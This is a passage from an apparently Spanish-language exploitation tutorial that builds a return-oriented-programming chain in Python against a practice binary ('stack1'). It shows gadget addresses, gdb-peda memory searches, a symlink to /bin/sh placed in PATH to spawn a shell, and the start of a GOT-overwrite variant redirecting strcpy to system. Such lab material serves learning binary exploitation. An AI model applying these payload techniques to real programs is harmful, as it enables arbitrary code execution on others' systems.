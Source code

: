 ```python
rop += gadget4                  # (4) add eax [ebx-0xb8a0008] ; add esp 0x4 ; pop ebx ; pop ebp ;; EAX = (OFFSET system-strcpy) + strcpy = SYSTEM ;D
rop += pack('<I', padding)		# otro valor cualquiera --> add esp 0x4
rop += pack('<I', padding)		# otro valor cualquiera --> pop ebx
rop += pack('<I', padding)		# otro valor cualquiera --> pop ebp

# Por ultimo llamamos a system

rop += gadget5                   # call eax ; leave ;;
rop += pack('<I', gnu_string)    # "GNU" string

payload = junk + rop

print payload
```

Para comprobar que funciona el èxploit tener en cuenta que le pasamos la cadena GNU que está en una determinada posición. Para averiguar la posición:
```
gdb-peda$ searchmem GNU 
Searching for 'GNU' in: None ranges
Found 17 results, display max 17 items:
    stack1 : 0x8048134 --> 0x554e47 ('GNU')
    stack1 : 0x8048154 --> 0x554e47 ('GNU')
```	    
Como no existe hay que crear un enlace  a sh desde esa cadena y meterle en el path:
```
  $ ln -s /bin/sh GNU
  $ ls -l GNU
  $ export PATH=.:$PATH
```
```
  ./stack1 $(python suyo.py)
  you have correctly got the variable to the right value
  #
``` 

**2.- GOT OVERWRITING**

En este caso como sólo vamos a sobreescribir la posicón de memoria de la función strcpy con el valor de la función system, tendremos que usar menos instrucciones de ensamblador. En realidad nos bastaría con:

```
    (1) 0x8048545L: pop ebx ; pop esi ; pop edi ; pop ebp ;;
    (2) 0x804842bL: xchg edi eax ; add al 0x8 ; add [ebx+0x5d5b04c4] eax ;;
```

Como ya tenemos los valores calculados anteriormente, y con lo bien que lo explica danigargu:
"El gadget (1) colocará en EBX la dirección de la GOT de strcpy, y en EDI el offset entre system y strcpy. El (2) sumará el offset al contenido de la GOT de strcpy (dirección absoluta de strcpy), haciendo que apunte a system. Luego tan solo tendremos que llamar a la PLT de strcpy para invocar system, haciendo un ret2plt."

Básicamente hay que escribir en la dirección GOT de strcpy el valor de strcpy + offset para llegar a system. Así quedaría el exploit:
